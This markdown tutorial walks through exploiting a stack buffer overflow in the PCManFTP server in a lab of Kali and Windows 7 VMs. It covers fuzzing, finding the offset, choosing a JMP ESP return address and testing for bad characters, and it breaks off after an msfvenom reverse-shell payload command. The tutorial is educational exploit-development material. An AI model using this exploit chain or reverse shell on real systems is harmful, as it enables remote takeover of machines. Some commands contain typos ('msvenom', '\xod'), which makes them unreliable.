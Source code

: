 # BUFFER OVERFLOW PCManFTP Server

### Setup
  - Follow along video: https://www.youtube.com/watch?v=nwJxWfmhb8s
  - Vulnerable App: https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z
  - Attacker VM: Kali Linux 2020
  - Victim VM: Windows 7 SP1 32 Bit
    - Firewalls Off
    - UAC Off
    - Immunity Debugger Installed ( https://www.immunityinc.com/products/debugger/ )
    - PCManftp extracted to C:\PCMan
  - Using VirtualBox and a NAT Network

### Getting Started
Make sure you have you VMs installed, the NAT Network enabled so the machines can talk to each other, and the Immunity Debugger and PCManFTP software installed. When you are ready, start up your Kali machine and the Windows 7 box. 

When Windows is ready, start the PCManFTP program, we don't need Immunity yet, so leave that closed.

### Fuzzing the App
I'm fairly certain we can overload the username field and crash the program, so we are going to use a python script to do so. In the file *fuzzer1.py* we will use a socket connection to send the username as an increasingly large number of "A's" until we crash the program. Each time the process runs it send the username as a string of A's and then the word pass for the password before disconnecting and telling us hw many characters it sent. Eventually the program will crash and we'll have a good idea of how many characters to send to cause the crash. We run the program by entering `python fuzzer1.py`.

### After the Crash: Finding the Offset
From our results of running *fuzzer1.py* we know that the crash happens between 2000 and 2100 characters, so now we need to narrow that down. To do so we will copy fuzzer1.py into a new file called fuzzer2.py and add in a long, unique string to help find the correct offset. To do so, we'll run a simple command in our Kali VM:

` /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 `

This will genrate a long string 2100 characters long. We'll send that string as our username so we can find the offset. Take a look at *fuzzer2.py* to see how we add this. Before run fuzer2.py, we need to restart the PCManFTP program on our Win & VM, and also start up Immunity Debugger.

Once we have both programs running, go into Immunity Debugger and click File > Attach and choose the PCManFTP program from the list and click "Attach." Next, click the Play arrow in the upper left - make sure the lower left corner says "Running". Now we ca switch back to our Kali VM and run fuzzer2: `python fuzzer2.py`.

The program will crash quickly, but our python script will be hung, just hit ctrl + c to kill it, then switch to our Win 7 VM. In the Immunity Debugger, look at the upper right quadrant and write down the address listed in the EIP section - this is a piece of the random string we sent and will tell us the offset. After you get it written down, switch back to the Kali VM. Now we run another command and tell it the address we wrote down:

` /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 396F4338`

In a couple seconds the program will return the offset, in my test this was 2006 characters. Now we copy fuzzer2.py to make fuzzer3.py:
`cp fuzzer2.py fuzzer3.py`.

So now in fuzzer3 we change up what we are sending:
`client.send("user " + "A" * 2006 + "B" * 4 + "C" * 300)`

This will send 2006 A's, followed by 4 B's and 300 C's. What we hope to see is the EIP changed to 42424242 - which would be the 4 B's that follow our offset of 2006 A's. Once our script is ready, we need to switch to the Win 7 VM and restart PCManFTP and Immunity Debugger, and then attach and run as we did before.

Once we are set, we can run fuzzer3: `python fuzzer3.py`  and we should crash the program again. Switch back to the WIN 7 VM and confirm that the EIP is 42424242, if it's not, then we need to figure out why. If it reads 42424241 we have 1 too many A's, 42424141 is 2 too many, etc. If it's all 43's then we don't have enough A's.

### We have all 42's...
OK, so we have the correct offset, don't close Immunity yet! In the menu bar located in the upper left, click on the button labeled "e" to show the running processes. We need to find and double-click on the line containing "SHELL32.DLL". Now we need to right-click in the upper left quadrant and choose Search For... > Command and enter in JMP ESP to search for our return address. We need to write down that address to use in the rest of our scripts.

Now let's copy our fuzzer3.py script into fuzzer4.py:  `cp fuzzer3.py fuzzer4.py`

Now, before we start making changes we need to jump back into the WIN 7 VM and set things back up for another run. This time, before we hit the run button, we need to right-click in the upper left quadrant and select "Go To" > "Expression" and then paste in our return address. After we hit OK we need to hit the F2 key to set a breakpoint, then we can click run and return to our script writing.

In our fuzzer4.py script, we are going to replace the `+ "B" * 4 ` part of our script with `+ ret `. Then at the top we need to add:

`ret = "\x28\x6c\x9A\x76"`

This is our return address **769A6C28** written in little endian format. This is the 4 pairs written in reverse order with a preceding \x between each two character set.

Once this is set, we can run our program and see if the PCManFTP program is in a paused state in Immunity Debugger and stopped at the address we placed the breakpoint. If it is, we are good to go, if not we'll need to review our steps up to now and find our mistake.

##Bad Characters
Now we need to reset everything on the Win 7 box, without the breakpoint this time, and make a copy of our fuzzer4 script as fuzzer5.py:

`cp fuzzer4.py fuzzer5.py`

In the new script we need to replace the `+ "C" * 300 ` part of our script with `+ badchar `

And in the upper part of the script we need to add:

`badchar = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
`
Now when we run the script we'll need to take a hard look at the bottom right quadrant of Immunity Debugger. We will be looking for bad characters that might make our exploit crash, \x00 is always a bad character, so we don't have that in our list - but we need to remember it for later. 

Now we run the fuzzer5 script and then switch back to the WIN 7 VM. In Immunity Debugger, we need to scroll in the lower right pane until we reach the end of the A's we sent, and then past the return address we set. What we will see is something *like* this:

`
0012F564 04030201 xxxx
0012F565 08000605 xxxx
0012F566 12111009 xxxx
...
`

What we need to look for is any missing number - in the example above the number 07 was replaced with 00 - that's a bad character and we need to make a note of it, and remove it from the badchar list in our script. We need to repeat this process until we don't have any more bad characters. In my example, I ran this 3 times and ended up with these bad characters: \x00\x0a\x0d,

Once we know the bad characters, we can close Immunity Debugger and re-run the PCManFTP program by itself. Then we need to jump back to Kali and copy our fuzzer5 script to exploit.py:

`cp fuzzer5.py exploit.py`

We can delete all the badchar stuff now and then add some new variables to our script:

`nop = "\x90" * 20
buf = b""`

In this case *nop* means no operation, we add 20 of these so the code has a buffer between our return address and the exploit code. The *buf* here is creating our exploit code - we will complete this after we create the code using MSVenom. The b"" means we are adding bytecode. For the rest of the exploit we will start each line with buff += b

So let's create our exploit code, we do this by running:

`msvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00\x0a\xod"`

So let's break this down:
  -msvenom Starts the msvenom program
  
  -p Sets the path to the exploit we want
  
  -windows/shell_reverse_tcp Tells the program we want a reverse shell for Windows
  
  -LHOST=10.0.2.15 This is our local machine's IP address
  
  -LPORT=4444 Sets the port we will be listening on for the reverse shell
  
  -EXITFUNC=thread Set the exit function to THREAD so we can interact with the reverse shell
  
  -f Specify the file type
  
  -c Write the shellcode as a C program
  
  -a Set the architecture of the victim machine
  
  -x86 Set this as a 32-bit machine for the code
  
  -b Specify bad characters to avoid
  
  -"\x00\x0a\xod" These were the bad characters we found.
  
  

*rest of article coming soon*




